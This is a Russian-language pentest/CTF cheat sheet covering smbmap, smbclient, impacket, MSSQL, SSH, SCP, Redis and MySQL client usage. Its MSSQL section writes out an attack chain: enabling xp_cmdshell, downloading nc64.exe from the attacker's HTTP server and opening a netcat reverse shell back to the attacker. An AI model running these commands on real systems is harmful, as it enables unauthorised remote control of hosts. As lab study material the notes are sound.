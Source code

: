 ## Введение 

> [[#SMB|1. SMB]]

## SMB
Протокол удалённого подключения к файловой системе и её управления на Windows. В рамка CTF и работы с уязвимостями на Linux используется утилита `smbmap`
### SMBMAP / SMBGET / SMBCLIENT
Допустим на хосте 10.10.1.2 на порту 139/tcp и 445/tcp работает SERVICE `netbios-ssn` VERSION `Samba smbd 3.x-4.x`:
1. `smbmap -H 10.10.1.2` - узнать подробнее о службе
2. ```
smbclient -N -L \\\\{TARGET_IP}\\ 
-N : No password 
-L : просмотр служб, которые есть на сервере

 3. чтобы войти к какую-то службу от корневой 
	 ```
	smbclient -N \\\\{TARGET_IP}\\<some share>
	```
4. `smbget -R smb://10.10.1.2/<Disk>` - скачать доступный ресурс рекурсивно
### impacket
Impacket представляет собой коллекцию классов Python для работы с сетевыми протоколами. Impacket ориентирован на обеспечение низкоуровневого программного доступа к пакетам, а для некоторых протоколов (например, SMB1-3 и MSRPC) — на саму реализацию протокола. Пакеты могут быть сконструированы с нуля, а также разобраны из необработанных данных, а объектно-ориентированный API упрощает работу с глубокими иерархиями протоколов. Библиотека предоставляет набор инструментов в качестве примеров того, что можно сделать в контексте этой библиотеки.
```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip3 install .
# OR:
sudo python3 setup.py install
# In case you are missing some modules:
pip3 install -r requirements.txt
```
Теперь мы готовы узнать об использовании инструмента и, в частности, mssqlclient.py скрипта.
```
cd impacket/examples/
python3 mssqlclient.py -h
```
Пример подключения к **MSSQL**:
```
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
```
где `-windows-auth` - флаг указан для использования проверки подлинности Windows
Для взлома MSSQL полезен ресурс: [MSSQL Injection Cheat Sheet | pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
Например благодаря нему можно использовать следующие команды для получения доступа к windows машине:
``` 
EXEC xp_cmdshell 'net user';
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

У себя:
python -m http.server 80
nc -lvnc 443

Снова в MSSQL:
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://<my python IP>/nc64.exe -outfile nc64.exe"

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe <my nc IP> 443"
```
Пример подключения к машине windows (из соответствующей папки impacket):
```
python3 psexec.py <login>@{TARGET_IP}
```
## SSH
чтобы подключиться:
``` 
ssh <login>:<ip adress> -p <port>
```
подключиться без пароля по ssh ключу:
```
ssh -i <key_file> <login>:<ip adress>
```
#### SCP
Позволяет передать файл на удалённый сервер или скачать его с удалённого сервера.
Пример передачи в папку /tmp:
```
scp <file> <ssh_login>@<IP>:/tmp
```
Пример скачивания файла:
``` 
scp <ssh_login>@<IP>:<path_to_file> .
```
## REDIS
in-memory database. Для взаимодействия используется утилита `redis-cli`
пример:
```bush
redis-cli -h <hostname> #подключение к хосту

info # получить информацию находясь на хосте

SELECT <> # выбрать данные, например SELECT 0 - узнать ключи под индексом 0

keys * # узнать, какие ключи есть в БД

get <key> # получить значение ключа <key>

```
## mysql
```
mysql -u <username> -h <host> -p <password>
```

